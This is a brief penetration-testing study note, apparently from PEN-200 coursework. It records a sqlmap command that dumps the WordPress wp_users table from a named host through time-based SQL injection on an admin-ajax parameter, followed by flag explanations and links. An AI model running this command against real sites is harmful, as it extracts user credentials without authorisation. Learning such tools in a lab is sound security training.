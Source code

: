 ## Syntax that worked
```bash
sqlmap -u "http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1" -p 'question_id' -D wordpress -T wp_users --dump --technique=T --flush-session --ignore-code=404 --level=5 --risk=3
```
- `-D`: DBMS to enumerate
- `--flush-session`: flush session files for current target
- `-T`: database tables to enumerate
- `--technique`: SQLi technique to use



> [!Resources]
> - [sqlmap](sqlmap.org)
> - [sqlmap Wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
> - PEN 200